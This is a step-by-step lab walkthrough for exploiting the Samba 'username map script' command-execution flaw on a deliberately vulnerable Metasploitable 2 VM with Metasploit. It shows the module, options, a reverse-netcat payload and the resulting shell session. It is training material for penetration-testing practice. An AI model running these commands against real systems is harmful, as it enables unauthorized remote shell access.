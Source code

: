 # SAMBA (Samba “username map script” Command Execution)

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Use the module

`use exploit/multi/samba/usermap_script`

### 3. Check the module options

`options`

```
Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### 4. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 5. Run the exploit

`run`

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] Command shell session 1 opened (192.168.8.147:4444 -> 192.168.8.142:50116) at 2023-03-28 18:47:28 -0400
```

# Video

Video that resumes everything on this laboratory.

![](assets/samba.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.
